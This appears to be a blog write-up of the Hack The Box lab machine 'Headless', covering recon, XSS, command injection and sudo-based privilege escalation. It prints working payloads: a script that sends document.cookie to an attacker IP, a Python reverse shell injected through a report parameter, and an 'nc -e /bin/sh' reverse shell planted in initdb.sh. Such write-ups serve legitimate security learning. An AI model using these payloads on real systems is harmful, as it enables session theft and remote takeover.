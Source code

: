 ```yaml
---
title: "Headless Hackthebox"
date: 2024-07-05
draft: false
tags : ["write-up", "htb"]

---
```

## User flag
### Recon

Port scanning:
![alt text](/posts/headless-htb/image.png)

Directory scanning:

![alt text](/posts/headless-htb/image-1.png)

Server open a port (5000) for running a website. After scanning directories, I found 2 interesting directories :
* /support which we can access by `For questions` button. It has a form to submit a message. By checking its request, I find that it is using `POST` method to send data to the server. I try to send a message with a payload `<h1>alert(1)</h1>` and it responses a alert form which includes header of this request. Additionally, I decode `is_admin` cookie and get a string which have first part is `user` and second part is a unreadable string.

![alt text](/posts/headless-htb/image-2.png)

* /dashoard which is only for authenticated account. 

### Exploitation

Notice that the form print the header of request, so I try to change the header User-Agent to XSS payload and it works. 

After that, I set up a listener and send a payload to get the cookie. 
```javascript
<script>fetch("http://10.10.14.65:9030/?cookie="+document.cookie);</script>
```
I got the `is_admin` cookie.
![alt text](/posts/headless-htb/image-3.png)

Replace the cookie with the one I got, I can access the dashboard page.
![alt text](/posts/headless-htb/image-4.png)

Use `Generate report` button, the web will send a request with a parameter `data` equal the date we choose. I try to change it to a linux command and it works. Then, I use reverse shell payload to get shell.
```python
;export RHOST="10.10.14.65";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")';
```

Get shell and user flag.
![alt text](/posts/headless-htb/image-5.png)


## Root flag
### Recon

Run `sudo -l` command, I see that I can run `sudo /usr/bin/syscheck` as root without password.
Command `syscheck` is looking for the `initdb.sh` program to execute. When `syscheck` is run as root, it will execute `initdb.sh` as root.

### Exploitation
Create a file `initdb.sh` with reverse shell payload and make it executable.
```bash
nc -e '/bin/sh' 10.10.14.65 7878
```

Run `syscheck` and get root shell.
![alt text](/posts/headless-htb/image-6.png)


